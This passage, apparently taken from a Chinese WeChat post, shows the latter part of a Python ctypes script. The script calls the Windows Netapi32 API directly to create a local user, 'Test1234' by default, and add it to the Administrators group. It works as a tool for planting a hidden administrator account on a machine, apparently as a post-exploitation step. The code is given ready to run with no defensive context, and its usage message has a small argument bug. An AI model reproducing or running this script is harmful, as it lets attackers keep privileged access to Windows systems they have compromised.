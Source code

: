```
    ui.usri1_priv = USER_PRIV_USER
    ui.usri1_home_dir = None
    ui.usri1_comment = None
    ui.usri1_flags = UF_SCRIPT
    ui.usri1_script_path = None

    a = ctypes.windll.Netapi32.NetUserAdd(None,1,ui,None)
    if a == 0:
        print("add user success : name={} passwd={}".format(username,password))
    else:
        print("add user error")

def addgroup(username ='Test1234' ,groupname = 'Administrators'):
    name = _LOCALGROUP_MEMBERS_INFO_3()
    name.lgrmi3_domainandname = username

    ctypes.windll.Netapi32.NetLocalGroupAddMembers.argtypes = (wintypes.LPCWSTR,wintypes.LPCWSTR,wintypes.DWORD,LPBYTE,wintypes.DWORD)
    b = ctypes.windll.Netapi32.NetLocalGroupAddMembers(None, groupname, 3, LPBYTE(name), 1)
    if b == 0:
        print("add group success : name={} group={}".format(username, groupname))
    else:
        print("add group error")

def main():
    if len(sys.argv) == 1:
        adduser()
        addgroup()
    elif len(sys.argv) == 3:
        adduser(str(sys.argv[1]),str(sys.argv[2]))
        addgroup(str(sys.argv[1]))
    elif len(sys.argv) == 4:
        adduser(str(sys.argv[1]), str(sys.argv[2]))
        addgroup(str(sys.argv[1]),str(sys.argv[3]))
    else:
        print("usage: {} username password".format(sys.argv[1]))
        print("usage: {} username password groupname".format(sys.argv[1]))

if __name__ == '__main__':
    main()
```

公众号
